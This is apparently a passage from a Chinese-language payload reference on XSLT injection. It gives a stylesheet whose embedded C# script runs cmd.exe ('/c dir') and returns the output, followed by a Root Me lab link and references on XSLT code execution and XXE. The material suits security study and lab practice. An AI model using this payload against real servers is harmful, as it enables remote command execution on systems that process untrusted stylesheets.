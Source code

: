 ```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="urn:my-scripts">

<msxsl:script language = "C#" implements-prefix = "user">
<![CDATA[
public string execute(){
System.Diagnostics.Process proc = new System.Diagnostics.Process();
proc.StartInfo.FileName= "C:\\windows\\system32\\cmd.exe";
proc.StartInfo.RedirectStandardOutput = true;
proc.StartInfo.UseShellExecute = false;
proc.StartInfo.Arguments = "/c dir";
proc.Start();
proc.WaitForExit();
return proc.StandardOutput.ReadToEnd();
}
]]>
</msxsl:script>

  <xsl:template match="/fruits">
  --- BEGIN COMMAND OUTPUT ---
 <xsl:value-of select="user:execute()"/>
  --- END COMMAND OUTPUT --- 
  </xsl:template>
</xsl:stylesheet>
```

## 实验室

- [Root Me - XSLT - 代码执行](https://www.root-me.org/en/Challenges/Web-Server/XSLT-Code-execution)

## 参考文献

- [从 XSLT 代码执行到 Meterpreter shell - Nicolas Grégoire (@agarri) - 2012年7月2日](https://www.agarri.fr/blog/archives/2012/07/02/from_xslt_code_execution_to_meterpreter_shells/index.html)
- [XSLT 注入 - Fortify - 2021年1月16日](http://web.archive.org/web/20210116001237/https://vulncat.fortify.com/en/detail?id=desc.dataflow.java.xslt_injection)
- [XSLT 注入基础 - Saxon - Hunnic Cyber Team - 2019年8月21日](http://web.archive.org/web/20190821174700/https://blog.hunniccyber.com/ektron-cms-remote-code-execution-xslt-transform-injection-java/)
- [使用 ChatGPT 在浏览器中获得 XXE - Igor Sak-Sakovskiy - 2024年5月22日](https://swarm.ptsecurity.com/xxe-chrome-safari-chatgpt/)
- [XSLT 注入导致文件创建 - PT SWARM (@ptswarm) - 2024年5月30日](https://twitter.com/ptswarm/status/1796162911108255974/photo/1)
